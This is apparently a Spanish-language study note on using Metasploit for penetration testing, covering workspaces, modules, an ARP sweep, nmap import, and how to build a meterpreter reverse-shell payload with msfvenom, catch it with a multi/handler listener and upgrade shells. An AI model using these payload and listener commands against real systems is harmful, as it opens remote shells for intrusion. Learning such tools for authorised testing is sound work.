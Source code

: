 #tool 
# ¿Qué es?

**Metasploit** es una plataforma de pruebas de penetración (Penetration Testing Framework) que se utiliza para realizar pruebas de seguridad en sistemas y aplicaciones.

# Uso

La primera vez ejecuta:

```bash
service postgresql start

msfdb run
```

El resto:

```bash
service postgresql start && msfconsole
```

## Workspaces

Con `workspace` podemos ver el área de trabajo actual. Con `workspace -h` todas las opciones.

Para añadir uno nuevo, podemos usar:
```bash
workspace -a <nombre>
```

Para cambiar de uno a otro:
```bash
workspace <nombre>
```

## Módulos

### Búsqueda

Para buscar podemos utilizar `search`:

```msf
search arp
```

### Usar un módulo

Para usar un módulo concreto utilizamos `use`:

```bash
use <ruta>
```

Dentro del módulo, con **`info`** podemos listar las opciones:

```bash
       Name: ARP Sweep Local Network Discovery
     Module: auxiliary/scanner/discovery/arp_sweep
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  belch

Check supported:
  No

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  INTERFACE                   no        The name of the interface
  RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  SHOST                       no        Source IP Address
  SMAC                        no        Source MAC Address
  THREADS    1                yes       The number of concurrent threads (max one per host)
  TIMEOUT    5                yes       The number of seconds to wait for new data

Description:
  Enumerate alive Hosts in local network using ARP requests.
```
> Ejemplo de *output* del comando.

Para asignar un valor a una opción utilizamos **`set`**, y lo corremos con **`run`**:

```bash
set RHOSTS 192.168.0.0/24
```
```bash
run
```

### Importar información

Podemos importar información en formato [[XML]], por ejemplo capturas de [[nmap]]:

```bash
db_import <ruta>
```

## nmap

Metasploit tiene integrado un [[nmap]]:

```bash
db_nmap
```

## Payloads

Podemos listar payloads:

```bash
show payloads
```

O con [[msfvenom]]:

```bash
msfvenom -l payloads
```

### Crear payload con msfvenom

Por ejemplo para crear un `.asp`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
```

## Listener

```bash
use multi/handler
set LHOST=<ip>
set LPORT=<port>
run
```

## Meterpreter

Upgradear shell a meterpreter:
```bash
search shell_to_meterpreter

session -u 1
```
